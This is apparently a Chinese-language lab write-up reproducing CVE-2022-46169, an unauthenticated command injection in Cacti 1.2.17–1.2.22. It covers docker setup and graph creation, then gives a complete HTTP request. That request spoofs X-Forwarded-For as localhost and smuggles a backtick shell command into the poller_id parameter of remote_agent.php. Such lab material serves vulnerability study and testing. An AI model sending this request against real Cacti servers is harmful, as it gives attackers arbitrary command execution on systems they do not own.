

# Cacti 前台命令注入漏洞（CVE-2022-46169）

Cacti是一个服务器监控与管理平台。在其1.2.17-1.2.22版本中存在一处命令注入漏洞，攻击者可以通过X-Forwarded-For请求头绕过服务端校验并在其中执行任意命令。

参考链接：

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf>
- <https://mp.weixin.qq.com/s/6crwl8ggMkiHdeTtTApv3A>

## 漏洞环境

执行如下命令启动一个Cacti 1.2.22版本服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`会跳转到登录页面。使用admin/admin作为账号密码登录，并根据页面中的提示进行初始化。

实际上初始化的过程就是不断点击“下一步”，直到安装成功：



这个漏洞的利用需要Cacti应用中至少存在一个类似是`POLLER_ACTION_SCRIPT_PHP`的采集器。所以，我们在Cacti后台首页创建一个新的Graph：


选择的Graph Type是“Device - Uptime”，点击创建：


## 漏洞利用

完成上述初始化后，我们切换到攻击者的角色。作为攻击者，发送如下数据包：

```
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`touch+/tmp/success` HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost.lan
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```


虽然响应包里没有回显，但是进入容器中即可发现`/tmp/success`已成功被创建：


